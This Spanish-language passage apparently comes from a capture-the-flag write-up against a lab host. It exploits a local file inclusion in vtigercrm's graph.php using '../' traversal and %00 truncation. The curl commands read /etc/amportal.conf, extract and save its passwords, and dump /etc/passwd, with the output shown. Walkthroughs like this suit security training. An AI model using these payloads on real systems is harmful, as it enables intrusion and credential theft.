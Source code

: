 Debido a que no hay filtro de '../' y puedo pasar el porcentaje %00 para truncar el texto, y la opción current_language lleva a un archivo, podemos hacer LFI. El porcentaje `%00` indica que PHP está añadiendo la extensión `.php` a la entrada antes de incluirla. Al agregar el porcentaje `%00` a una instancia de PHP obsoleta truncaría la cadena, haciendo que la extensión `.php` sea ignorado.

Parece que tenemos algunas contraseñas de la salida anterior, podemos filtrar esto:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -E 'PASS=|PASSWORD='
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Guárdalo en un archivo:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -E 'PASS=|PASSWORD=' | cut -d '=' -f 2 | uniq -u >> passwords.txt
```

Ahora tenemos una lista de contraseñas:
- amp109
- amp111
- jEhdIekWmdjE
- passw0rd

Ya que tenemos LFI, podemos intentar enumerar los usuarios también, vamos a leer el archivo `/etc/passwd`:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
```